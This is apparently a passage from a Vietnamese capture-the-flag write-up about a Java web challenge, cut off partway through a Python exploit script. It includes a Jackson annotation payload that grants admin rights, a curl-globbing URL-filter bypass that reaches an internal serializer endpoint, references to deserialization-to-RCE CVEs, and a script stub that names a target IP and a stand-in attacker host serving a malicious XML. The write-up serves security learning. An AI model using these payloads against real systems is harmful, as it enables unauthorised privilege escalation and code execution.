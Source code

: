 ```
}

```
- Có thể thấy `@JacksonInject` sẽ control hackerRole của chúng ta sau đó nó set role mặc định là false tức là không phải admin -> chúng ta sẽ bypass admin bằng cách sử dụng lỗ hổng của `Jackson` anotation, và đây là cách bypass nó:
```
{"firstName":"123","lastName":"123","favouriteCategory":"123",
"":{"admin":true}
}
```

- Tiếp theo quay trở lại với `/update` nó sẽ nhận giá trị url và áp vào class URL của java.net.URL -> check :

```
 if (!parsedUrl.getProtocol().equals("http") || !parsedUrl.getHost().equals("nicknameservice") || parsedUrl.getPort() != 5000)
            return ResponseEntity.status(401).body("Invalid URL");
```

- Nếu protocol khác http host khác `nicknameservice` và port khác `5000` ngay lúc này mình nghĩ đến việc bypass bằng ``@`` nhưng mà nó chỉ hiện thực với python còn java này ta sẽ sử dụng tính năng globbing curl của curl:
- Có một vài các cách curl nhiều domain được curl giới thiệu:
![image](https://hackmd.io/_uploads/HyekWDDSR.png)

![image](https://hackmd.io/_uploads/HyfbZvPS0.png)

- Vậy là bypass được waf này với payload : `/admin/update?url=http://{@nicknameservice:5000/,localhost:8090/}ExperimentalSerializer?serialized=`

### Phân tích lỗ hổng CVE-2021-25646 Jackson:

https://blog.kuron3k0.vip/2021/04/10/vulns-of-misunderstanding-annotation/

### Phân tích CVE-2017-17485 java deserialize to RCE
https://www.cnblogs.com/afanti/p/10203282.html

POC : 

```
    1) Set JWT to admin=true.
        - https://blog.kuron3k0.vip/2021/04/10/vulns-of-misunderstanding-annotation/
    2) Curl globbing
        - https://everything.curl.dev/cmdline/globbing.html
    3) Class Instantiation
        - https://samuzora.com/posts/rwctf-2024/
```

```
import httpx
from urllib.parse import quote


URL = "http://172.206.89.197:8090/"
#URL = "http://localhost:8090/"
ATTACKER = "https://ATTACKER/pov.xml"
```
